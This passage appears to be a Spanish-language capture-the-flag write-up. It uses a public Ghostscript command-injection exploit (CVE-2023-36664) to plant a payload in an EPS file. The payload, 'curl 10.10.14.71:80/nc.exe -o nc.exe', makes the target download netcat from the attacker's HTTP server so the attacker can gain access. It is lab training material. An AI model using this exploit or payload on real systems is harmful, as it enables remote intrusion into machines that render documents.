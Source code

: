 >PostScript encapsulado, o EPS, es un formato de archivo gráfico. Un archivo EPS es un archivo PostScript que satisface algunas restricciones adicionales. Estas restricciones intentan hacer más fácil a programas de software el incluir un archivo EPS dentro de otro documento PostScript.

- El Dr. Brown quiere que le enviemos un archivo con la extensión `.eps`  y nos habla sobre <https://www.ghostscript.com/> que es el que interpreta el `PostScript` si investigamos sobre esto encontramos una vulnerabilidad en `Ghostscript` <https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection> en la que podemos hacer una inyección de comandos en un `.eps`.

```bash
➜  content git clone https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
Cloning into 'CVE-2023-36664-Ghostscript-command-injection'...
remote: Enumerating objects: 34, done.
remote: Counting objects: 100% (34/34), done.
remote: Compressing objects: 100% (32/32), done.
remote: Total 34 (delta 15), reused 5 (delta 1), pack-reused 0
Receiving objects: 100% (34/34), 71.69 KiB | 407.00 KiB/s, done.
Resolving deltas: 100% (15/15), done.
➜  content cd CVE-2023-36664-Ghostscript-command-injection
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) ls
CVE_2023_36664_exploit.py  README.md  file.eps  file.ps  flowchart.png  vsociety.jpg
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) python3 CVE_2023_36664_exploit.py
[-] Either --payload or --revshell is required.
```

- Para ganar acceso necesitamos subir el ejecutable de `netcat`.

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) ✗ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) ✗ python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.14.71:80/nc.exe -o nc.exe" --filename file.eps
[+] Payload successfully injected into file.eps.
```

- Ahora vamos a enviar el `.eps` al `Dr.Brown`.

<p align="center">